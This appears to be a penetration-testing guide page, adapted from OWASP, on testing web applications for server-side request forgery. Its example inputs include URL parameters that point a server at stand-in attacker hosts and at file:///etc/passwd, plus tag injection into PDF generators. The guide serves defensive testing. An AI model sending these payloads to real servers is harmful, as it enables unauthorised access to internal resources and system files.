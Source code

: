 # SSRF

|ID          |
|------------|
|GTRT-INPV-15|

## Summary

In a Server-Side Request Forgery (SSRF) attack, the attacker can abuse functionality on the server to read or update internal resources. The attacker can supply or a modify a request which the code running on the server will process. By carefully selecting the details, the attacker may be able to read server configuration such as AWS metadata, connect to internal services like HTTP enabled databases, or perform POST requests towards internal services which are not intended to be exposed.

## How to Test

### Case I: Endpoints Which Fetch External/Internal Resources

With GET request:

- `http://example.com/index.php?page=about.php`
- `http://example.com/index.php?page=https://attackersite.com`
- `http://example.com/index.php?page=file:///etc/passwd`

With POST request:

```
POST /test/ssrf_form.php HTTP/1.1
Host: example.com

url=https://hacker.com/as&name2=value2
```

### Case II: PDF Generators

There are some cases where server converts uploaded file to a pdf. Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS url() functions pointing to internal services.

### Tools

- [Burpsuite](https://portswigger.net/burp)
- [ZAP](https://www.zaproxy.org/)

## References

Application Development Security 1.1/S1(b) Validate all inputs from external data sources, such as web forms submissions and API services provided by other systems

Application Development Security 1.1/S1(e) Encode output for all data returned to the requester

https://github.com/OWASP/wstg/blob/e715058efb0179e0787fcd27f2a244a797d16500/Testing_for_Server-Side_Request_Forgery.md